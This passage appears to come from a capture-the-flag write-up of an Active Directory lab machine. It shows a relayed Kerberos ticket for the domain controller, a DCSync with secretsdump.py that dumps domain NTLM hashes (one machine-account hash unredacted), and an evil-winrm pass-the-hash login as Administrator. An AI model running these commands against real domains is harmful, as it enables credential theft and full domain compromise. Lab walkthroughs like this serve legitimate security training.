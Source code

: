 We receive the ticket for the DC1 in our krbrelay server:
```bash
[*] SMBD: Received connection from 10.10.88.149
[*] Got ticket for DC1$@DELEGATE.VL [krbtgt@DELEGATE.VL]
[*] Saving ticket in DC1$@DELEGATE.VL_krbtgt@DELEGATE.VL.ccache
```

We can simply DCSYNC the domain controller using the ticket and login with the NTLM hash of the Administrator:
```bash
> export KRB5CCNAME='DC1$@DELEGATE.VL_krbtgt@DELEGATE.VL.ccache'
> secretsdump.py -k dc1.delegate.vl -just-dc

Impacket v0.11.0 - Copyright 2023 Fortra
                                                                                                                        
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:<redacted>:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:<redacted>:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:<redacted>:::
A.Briggs:1104:aad3b435b51404eeaad3b435b51404ee:<redacted>:::
b.Brown:1105:aad3b435b51404eeaad3b435b51404ee:<redacted>:::
R.Cooper:1106:aad3b435b51404eeaad3b435b51404ee:<redacted>:::
J.Roberts:1107:aad3b435b51404eeaad3b435b51404ee:<redacted>:::
N.Thompson:1108:aad3b435b51404eeaad3b435b51404ee:<redacted>:::
DC1$:1000:aad3b435b51404eeaad3b435b51404ee:<redacted>:::   
evilcomputer$:3101:aad3b435b51404eeaad3b435b51404ee:f2d0c0e145e8323b97cec00272d7fa01:::
...<snip>...

> evil-winrm -i delegate.vl -u 'Administrator' -H '<redacted>'
Evil-WinRM shell v3.5                                         
Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents>
```
